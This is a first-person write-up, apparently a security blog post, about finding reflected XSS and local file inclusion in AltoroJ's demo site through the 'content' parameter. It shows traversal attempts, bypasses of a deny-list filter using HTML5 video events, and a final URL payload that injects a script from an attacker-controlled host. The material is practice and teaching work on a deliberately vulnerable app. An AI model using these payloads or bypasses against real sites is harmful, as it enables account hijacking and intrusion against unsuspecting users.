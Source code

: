 # AltoroJ - Reflected XSS in Error Messages via `Content` Parameter
Jonathan Gregson, 11 September 2020

## Brief
I wanted to practice finding XSS vulnerabilities on web apps and searched for a vulnerable app online. I found the [AltoroJ](https://github.com/hclproducts/AltoroJ) project, but not before finding a hosted version on [demo.testfire.net](http://demo.testfire.net/). This writeup will be about my findings there.

## Discovery
As with every website I visit, my first instinct was to type `test<` into the search bar and see if the angle bracket was left unescaped. As expected, `<` was converted to `&lt;` in the output. Nothing can be that easy anymore.

I quickly got bored of the search bar as nothing was jumping out at me as unusual or dangerous. What did jump out though was that some of the links on the page were to `index.jsp` with HTM pages in the `content` parameter, like `index.jsp?content=inside_contact.htm`. This seemed like something that could be vulnerable to local file inclusion or directory traversal.

I replaced `inside_contact.htm` with `../../../../../../../../../../etc/passwd` in a final attempt at instant gratification, but unfortunately, the application returned a 500 internal server error, referencing a null pointer exception:

![HTTP Status 500 - Internal Server Error](images/http-status-500-internal-server-error.png)

Actually that all sounded very bad. I tried including the non-existent page `rnrgudvdhg.htm` and was given a much more helpful error message of `Failed due to The requested resource (/static/rnrgudvdhg.htm) is not available`. So whatever was passed in the `content` parameter the web app would look for in `static/`. We couldn't traverse back to the root of the file system yet, but could we traverse back out of `static` and include files from the root of the web app?

![http://demo.testfire.net/index.jsp?content=../login.jsp](images/index-jsp-include-login-jsp.png)

Looks like we could. We could even get recursive and have `index.jsp` include itself:

![http://demo.testfire.net/index.jsp?content=../index.jsp](images/index-jsp-include-index-jsp.png)

This was definitely vulnerable to LFI, but I was still craving for XSS. I'll come back to the FLI/traversal aspect of this parameter another time. Focusing on XSS again, I thought the error message from earlier looked interesting. It was like it was returning part of an exception to me without filtering it. I checked if I could include an angle bracket:

![http://demo.testfire.net/index.jsp?content=nothing<here](images/content-nothing-here.png)

It worked! This suggested to me that the application was taking my input and attempting to access system resources without validating it, and then returning exceptions to me, again without validating them. There was so much going on here, but again, back to XSS.

## Exploitation
A user's ability to get angle brackets into the DOM almost guarantees there is an XSS vulnerability or five somewhere. There are just too many things you can abuse in the DOM. I knew I could open HTML tags, so I tried to close one as well, but the output kept coming back sanitized. Some combinations of angle brackets seemed to be sanitized and some did not. Anyway, I decided to focus on the classic `<img src=x onerror=alert(1) foo="` trick and hope the `<img>` tag closed safely somewhere and executed the payload. But what I got back was odd:

![?content=<img%20src=x%20onerror=alert(1)%20foo=" => Failed due to](images/failed-due-to.png)

`Failed due to `? It was like an error was still occurring, but the exception output was being filtered, or there was none at all. I was getting this same result whenever I tried `onload=`, or `onerror=`, but not `onloa=`. In fact, every event attribute I tried caused this, as well as style attributes and a few other things.

I thought there must be something in place which was filtering and blocking my input if it detected certain known malicious strings. I was still able to include image tags and even display remote images, I just couldn't bind any event listeners to them in the HTML tag. It was frustrating -- I knew I was so close. But I also knew that filtering input and output by looking for matches on a deny list is a terrible security approach, because developers inevitably miss something, or fail to keep libraries up to date with the platform and language.

I noted that the site felt "old" overall, and thought that this filter might not be up to date on newer DOM events like touch events. I dropped in `ontouchstart=alert(1` and, with a little user interaction, it worked!

![?content=%3Cimg%20src=%22//viper5000.net/cat.png%22%20ontouchstart=alert(1](images/touch-start-xss.gif)

But this wasn't nearly good enough to feed my hunger for XSS. Not only did this require the XSS victim to be using a touch-based device, it also required the site to place the image in a large, visible, touchable spot, and the user to actually touch the image. I needed a payload that would trigger when the URL was loaded without any further interaction from the user.

I went back to trying to bypass this XSS filter. I tried using null bytes before, in the middle of, or end of the `onload=` attribute, but it always either broke the attribute or was blocked. I found that many or all HTML5 event attributes were not blocked, but most of them don't allow for execution on load, or don't apply to the tags I was using.

Many of the newer HTML5 events could be caused to fire on load, such as media events like `loadstart`, `loadeddata`, and `loadend`. But unfortunately, none of these events are fired by classic HTML tags like `<img>`. To make matters worse, the tags that will fire them are actually supposed to be used as a nested set of tags like:

    <video onloadstart="alert(1)">
        <source src="video.mp4">
    </video>

I wasn't able to get nearly half of that into a payload before the filter would block it. But I was determined to find a way to use the newer HTML5 tags since I wasn't able to get past the filter in any other meaningful way. Out of desperation, I sent nothing but a `<video>` tag for the parameter and to my amazement, not only did this make it past the filter, but the browser restructured the HTML output so that I had a closing `</video>` tag with spec-compliant text in between:

![?content=<video>](images/video-tag.png)

Why hadn't I tried this an hour before? It would have saved so much time. I tried again with `<video><source>` and the browser properly closed both tags. This was perfect! I added some new, unfiltered HTML5 event attributes and tested the payload:

![?content=%3Cvideo%20onloadedmetadata=%22alert(1)%22%3E%3Csource%20src=%22//viper5000.net/vid.mp4%22%3E](images/video-onloadedmetadata-xss.png)

It worked! I finally had a one-click reflected XSS payload:

    http://demo.testfire.net/index.jsp?content=%3Cvideo%20onloadedmetadata=%22alert(1)%22%3E%3Csource%20src=%22//viper5000.net/vid.mp4%22%3E

Taking things a step further, I updated the payload to download a JavaScript file from an attacker-controlled website and add it to the DOM:

    http://demo.testfire.net/index.jsp?content=%3Cvideo%20onloadedmetadata=%22s=document.createElement('script');s.src='//viper5000.net/xss.js';document.body.appendChild(s)%22%3E%3Csource%20src=%22//viper5000.net/vid.mp4%22%3E

![Remote XSS payload](images/remote-xss-payload.png)
